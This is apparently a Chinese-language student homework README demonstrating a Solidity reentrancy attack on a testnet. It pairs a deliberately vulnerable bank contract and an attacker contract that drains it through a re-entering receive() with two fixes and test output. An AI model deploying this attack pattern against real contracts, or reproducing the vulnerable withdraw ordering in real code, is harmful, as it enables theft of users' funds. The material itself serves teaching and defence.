



# Homework 6: 智能合约重入攻击演示

## 📋 项目概述

本项目演示了智能合约中最危险的漏洞之一：**重入攻击（Reentrancy Attack）**，使用 **Solidity** 编写，可部署到 **Polkadot Asset Hub** 测试网。

- **漏洞合约**: `VulnerableBank.sol` - 存在重入漏洞的银行合约
- **攻击合约**: `Attacker.sol` - 利用重入漏洞的攻击合约
- **安全合约**: `SecureBank.sol` - 修复了重入漏洞的安全版本
- **测试文件**: `ReentrancyAttack.test.js` - 完整的攻击演示和测试

---




## 🔍 漏洞详解

### 漏洞代码（VulnerableBank.sol）

```solidity
function withdraw(uint256 _amount) public {
    require(balances[msg.sender] >= _amount, "Insufficient balance");
    
    // 🚨 漏洞 1: 先转账
    (bool success, ) = msg.sender.call{value: _amount}("");
    require(success, "Transfer failed");
    
    // 🚨 漏洞 2: 后更新余额（太晚了！）
    balances[msg.sender] -= _amount;
    
    emit Withdraw(msg.sender, _amount);
}
```

### 漏洞原因

1. **错误的执行顺序**
   - ❌ 先转账（外部调用）
   - ❌ 后更新状态（余额）

2. **使用 `call` 转账**
   - `call` 会将所有剩余 gas 转发给接收者
   - 接收者可以执行复杂的代码逻辑

3. **状态未及时更新**
   - 转账时余额还未减少
   - 攻击者可以重复调用 `withdraw`

---

## ⚔️ 攻击原理

### 攻击流程

```
1. 攻击者存入 1 POL 到银行
   银行状态: attacker.balance = 1 POL

2. 攻击者调用 withdraw(1 POL)
   ├─ 检查: attacker.balance >= 1 POL ✓
   ├─ 转账: 银行 → 攻击合约 (1 POL)
   │  └─ 触发攻击合约的 receive()
   │     └─ 再次调用 withdraw(1 POL)  ← 重入！
   │        ├─ 检查: attacker.balance >= 1 POL ✓ (还未更新！)
   │        ├─ 转账: 银行 → 攻击合约 (1 POL)
   │        │  └─ 再次触发 receive()
   │        │     └─ 继续重入...
   │        └─ 更新: attacker.balance -= 1 POL
   └─ 更新: attacker.balance -= 1 POL

3. 循环直到银行余额为 0
```

### 攻击代码（Attacker.sol）

```solidity
// 发起攻击
function attack() public payable {
    vulnerableBank.deposit{value: msg.value}();
    vulnerableBank.withdraw(msg.value);
}

// 重入攻击的核心
receive() external payable {
    // 🔥 关键：在这里再次调用 withdraw
    if (address(vulnerableBank).balance >= attackAmount) {
        vulnerableBank.withdraw(attackAmount);
    }
}
```

### 攻击效果

假设银行有 10 POL，攻击者只需 1 POL：

```
攻击前:
- 银行: 10 POL
- 攻击者: 1 POL

攻击后:
- 银行: 0 POL
- 攻击者: 11 POL (净赚 10 POL)
```

---

## ✅ 防御方案

### 方案 1: Checks-Effects-Interactions 模式

```solidity
function withdraw(uint256 _amount) public {
    // 1. Checks: 检查条件
    require(balances[msg.sender] >= _amount, "Insufficient balance");
    
    // 2. Effects: 先更新状态 ✅
    balances[msg.sender] -= _amount;
    
    // 3. Interactions: 最后外部调用 ✅
    (bool success, ) = msg.sender.call{value: _amount}("");
    require(success, "Transfer failed");
}
```

**原理**: 状态更新在外部调用之前，即使重入，余额已经是 0，无法再次取款。

### 方案 2: 使用 ReentrancyGuard

```solidity
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract SecureBank is ReentrancyGuard {
    function withdraw(uint256 _amount) public nonReentrant {
        // 函数逻辑
    }
}
```

**原理**: 使用互斥锁，防止函数在执行期间被重入。

---

## 🚀 运行演示

### 1. 安装依赖

```bash
cd 2050
npm install
```

### 2. 编译合约

```bash
npx hardhat compile
```

### 3. 运行测试

```bash
# 运行所有测试
npx hardhat test

# 查看详细输出
npx hardhat test --verbose
```

### 4. 测试输出示例

```
=== 攻击前状态 ===
银行总余额: 10.0 POL
User1 余额: 5.0 POL
User2 余额: 5.0 POL

=== 发起攻击 ===
攻击金额: 1.0 POL

=== 攻击后状态 ===
银行总余额: 0.0 POL
攻击合约余额: 11.0 POL
被盗金额: 10.0 POL

✓ 应该成功执行重入攻击，窃取所有资金
```

---

## 🌐 部署到 Polkadot Asset Hub

### 部署状态

#### ✅ 本地测试网
```bash
npx hardhat test
# ✅ 6 passing (583ms)
```

所有测试在 Hardhat 本地网络通过，包括：
- ✅ 正常功能测试
- ✅ 重入攻击演示
- ✅ 安全防御验证
- ✅ 代码对比分析

#### 🌐 Polkadot Asset Hub 测试网

**已部署合约**：


### 部署步骤

#### 1. 配置环境变量

创建 `.env` 文件：

```bash
PRIVATE_KEY=your_private_key_here
```

#### 2. 获取测试代币

访问 [Polkadot Asset Hub Faucet](https://faucet.polkadot.io/) 获取测试代币。

#### 3. 部署合约

```bash
# 部署所有合约
npx hardhat run scripts/deploy.js --network passPOLub


```

#### 4. Polkadot Asset Hub 信息

- **网络名称**: Polkadot Asset Hub Testnet
- **RPC URL**: https://testnet-passet-hub-POL-rpc.polkadot.io
- **Chain ID**: 420420422
- **区块浏览器**: https://assPOLub-polkadot-testnet.subscan.io/

---

## 📊 测试结果

### 测试覆盖

- ✅ 漏洞银行正常功能测试
- ✅ 重入攻击演示（成功窃取资金）
- ✅ 安全银行防御测试（攻击失败）
- ✅ 代码对比分析

### 运行测试

```bash
$ npx hardhat test

  重入攻击演示 - Polkadot Asset Hub
    1. 漏洞银行 - 正常功能测试
      ✓ 应该允许用户存款
      ✓ 应该允许用户取款
    2. 重入攻击演示 - 攻击漏洞银行
      ✓ 🚨 应该成功执行重入攻击，窃取所有资金
      ✓ 应该显示重入攻击的详细过程
    3. 安全银行 - 防御重入攻击
      ✓ ✅ 安全银行应该防御重入攻击
    4. 对比分析
      ✓ 应该展示漏洞代码和安全代码的区别

  6 passing (2s)
```

---

## 📁 项目结构

```
homework6-polkadot/
├── contracts/
│   ├── VulnerableBank.sol    # 漏洞合约
│   ├── Attacker.sol           # 攻击合约
│   └── SecureBank.sol         # 安全合约
├── test/
│   └── ReentrancyAttack.test.js  # 测试文件
├── scripts/
│   └── deploy.js              # 部署脚本
├── hardhat.config.js          # Hardhat 配置
├── package.json               # 项目配置
├── .env.example               # 环境变量示例
└── README.md                  # 本文件
```

---


## ⚠️ 免责声明

本项目仅用于教育目的，演示智能合约漏洞和攻击方式。

**请勿用于：**
- ❌ 攻击真实的智能合约
- ❌ 窃取他人资金
- ❌ 任何非法活动

**使用本代码造成的任何损失，作者概不负责。**

---

## 📝 作业总结

### 完成内容

1. ✅ 创建了存在重入漏洞的合约（VulnerableBank）
2. ✅ 实现了攻击合约（Attacker）
3. ✅ 演示了完整的攻击过程
4. ✅ 提供了安全的修复方案（SecureBank）
5. ✅ 编写了详细的测试用例
6. ✅ 可部署到 Polkadot Asset Hub 测试网

### 学习收获

- 🎯 理解了重入攻击的原理和危害
- 🎯 掌握了 Checks-Effects-Interactions 模式
- 🎯 学会了如何识别和防御重入漏洞
- 🎯 了解了 Polkadot 生态系统中的 EVM 兼容性

---

## 📄 License

MIT License - 仅供学习使用


